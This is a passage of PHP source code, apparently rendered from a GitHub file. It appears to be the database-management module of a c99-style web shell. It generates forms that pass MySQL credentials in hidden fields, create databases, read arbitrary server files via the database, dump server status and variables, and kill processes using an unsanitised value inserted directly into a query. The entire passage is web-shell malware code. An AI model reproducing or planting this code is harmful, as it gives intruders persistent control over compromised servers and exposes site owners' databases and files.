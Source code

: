   }
   }
  }
  else {
   $acts = array("","newdb","serverstatus","servervars","processes","getfile");
   if (in_array($sql_act,$acts)) {?&gt;&lt;table border="0" width="100%" height="1"&gt;&lt;tr&gt;&lt;td width="30%" height="1"&gt;&lt;b&gt;Create new DB:&lt;/b&gt;&lt;form action="&lt;?php echo $surl; ?&gt;"&gt;&lt;input type="hidden" name="act" value="sql"&gt;&lt;input type="hidden" name="sql_act" value="newdb"&gt;&lt;input type="hidden" name="sql_login" value="&lt;?php echo htmlspecialchars($sql_login); ?&gt;"&gt;&lt;input type="hidden" name="sql_passwd" value="&lt;?php echo htmlspecialchars($sql_passwd); ?&gt;"&gt;&lt;input type="hidden" name="sql_server" value="&lt;?php echo htmlspecialchars($sql_server); ?&gt;"&gt;&lt;input type="hidden" name="sql_port" value="&lt;?php echo htmlspecialchars($sql_port); ?&gt;"&gt;&lt;input type="text" name="sql_newdb" size="20"&gt;&nbsp;&lt;input type="submit" value="Create"&gt;&lt;/form&gt;&lt;/td&gt;&lt;td width="30%" height="1"&gt;&lt;b&gt;View File:&lt;/b&gt;&lt;form action="&lt;?php echo $surl; ?&gt;"&gt;&lt;input type="hidden" name="act" value="sql"&gt;&lt;input type="hidden" name="sql_act" value="getfile"&gt;&lt;input type="hidden" name="sql_login" value="&lt;?php echo htmlspecialchars($sql_login); ?&gt;"&gt;&lt;input type="hidden" name="sql_passwd" value="&lt;?php echo htmlspecialchars($sql_passwd); ?&gt;"&gt;&lt;input type="hidden" name="sql_server" value="&lt;?php echo htmlspecialchars($sql_server); ?&gt;"&gt;&lt;input type="hidden" name="sql_port" value="&lt;?php echo htmlspecialchars($sql_port); ?&gt;"&gt;&lt;input type="text" name="sql_getfile" size="30" value="&lt;?php echo htmlspecialchars($sql_getfile); ?&gt;"&gt;&nbsp;&lt;input type="submit" value="Get"&gt;&lt;/form&gt;&lt;/td&gt;&lt;td width="30%" height="1"&gt;&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td width="30%" height="1"&gt;&lt;/td&gt;&lt;td width="30%" height="1"&gt;&lt;/td&gt;&lt;td width="30%" height="1"&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;&lt;?php }
   if (!empty($sql_act)) {
    echo "&lt;hr size=\"1\" noshade&gt;";
    if ($sql_act == "newdb") {
     echo "&lt;b&gt;";
     if ((mysql_create_db ($sql_newdb)) and (!empty($sql_newdb))) {echo "DB \"".htmlspecialchars($sql_newdb)."\" has been created with success!&lt;/b&gt;&lt;br&gt;";}
     else {echo "Can't create DB \"".htmlspecialchars($sql_newdb)."\".&lt;br&gt;Reason:&lt;/b&gt; ".mysql_smarterror();}
    }
    if ($sql_act == "serverstatus") {
     $result = mysql_query("SHOW STATUS", $sql_sock);
     echo "&lt;center&gt;&lt;b&gt;Server-status variables:&lt;/b&gt;&lt;br&gt;&lt;br&gt;";
     echo "&lt;TABLE cellSpacing=0 cellPadding=0 bgcolor=#000000 borderColorLight=#333333 border=1&gt;&lt;td&gt;&lt;b&gt;Name&lt;/b&gt;&lt;/td&gt;&lt;td&gt;&lt;b&gt;Value&lt;/b&gt;&lt;/td&gt;&lt;/tr&gt;";
     while ($row = mysql_fetch_array($result, MYSQL_NUM)) {echo "&lt;tr&gt;&lt;td&gt;".$row[0]."&lt;/td&gt;&lt;td&gt;".$row[1]."&lt;/td&gt;&lt;/tr&gt;";}
     echo "&lt;/table&gt;&lt;/center&gt;";
     mysql_free_result($result);
    }
    if ($sql_act == "servervars") {
     $result = mysql_query("SHOW VARIABLES", $sql_sock);
     echo "&lt;center&gt;&lt;b&gt;Server variables:&lt;/b&gt;&lt;br&gt;&lt;br&gt;";
     echo "&lt;TABLE cellSpacing=0 cellPadding=0 bgcolor=#000000 borderColorLight=#333333 border=1&gt;&lt;td&gt;&lt;b&gt;Name&lt;/b&gt;&lt;/td&gt;&lt;td&gt;&lt;b&gt;Value&lt;/b&gt;&lt;/td&gt;&lt;/tr&gt;";
     while ($row = mysql_fetch_array($result, MYSQL_NUM)) {echo "&lt;tr&gt;&lt;td&gt;".$row[0]."&lt;/td&gt;&lt;td&gt;".$row[1]."&lt;/td&gt;&lt;/tr&gt;";}
     echo "&lt;/table&gt;";
     mysql_free_result($result);
    }
    if ($sql_act == "processes") {
     if (!empty($kill)) {
       $query = "KILL ".$kill.";";
       $result = mysql_query($query, $sql_sock);
       echo "&lt;b&gt;Process #".$kill." was killed.&lt;/b&gt;";
     }
     $result = mysql_query("SHOW PROCESSLIST", $sql_sock);
     echo "&lt;center&gt;&lt;b&gt;Processes:&lt;/b&gt;&lt;br&gt;&lt;br&gt;";